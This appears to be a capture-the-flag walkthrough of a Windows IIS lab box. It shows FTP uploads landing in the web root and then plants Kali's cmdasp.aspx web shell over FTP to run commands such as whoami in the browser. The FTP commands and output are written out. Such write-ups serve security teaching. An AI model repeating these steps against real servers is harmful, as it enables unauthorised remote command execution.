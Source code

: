 The file welcome.png and isstart.htm are of particular interest. Welcome.png is what was observed in the browser, indicating the FTP directory is very likely hosted in C:/inetpub/wwwroot.

To test this we create a file called test.txt and upload this to the server via FTP PUT:

	touch test.txt
    
    ftp> put test.txt
    local: test.txt remote: test.txt
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    ftp>
    
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    03-18-17  01:06AM       <DIR>          aspnet_client
    03-17-17  04:37PM                  689 iisstart.htm
    02-02-21  06:17PM                    0 test.txt
    03-17-17  04:37PM               184946 welcome.png
    226 Transfer complete.
    ftp>


The file has been successfully uploaded. Let's try and access this via the browser:

![2021-02-02 16_19_18-Window.png]({{site.baseurl}}/_posts/2021-02-02 16_19_18-Window.png)

So we now know we can access any resource we upload via FTP from the browser. This means if we were to set upload a reverse shell via FTP access it via FTP, we can setup a call back and get a shell. Let's try this.

___

### 4. Getting our 1st shell (Foothold)

As we can't use FTP we will have to be creative. As this is IIS, it is likely running **.ASP** or **.ASPX** as it's web framework, **NOT PHP**. 

I will go for .ASPX.

Kali linux has inbuilt web shells for .ASPX which can be located at **/usr/share/webshells/aspx/**. Copy the **cmdasp.apsx** web shell from here to our local dir:

	ls /usr/share/webshells/aspx/
	cmdasp.aspx
    
    cp /usr/share/webshells/aspx/cmdasp.aspx .

There are **NO** changes to be made to file. Upload this file via FTP and then access the resource through the browser:

![2021-02-02 16_31_45-Window.png]({{site.baseurl}}/_posts/2021-02-02 16_31_45-Window.png)


This is will allow us to run **windows commands** via a HTML page as can be seen above when running **whoami**.
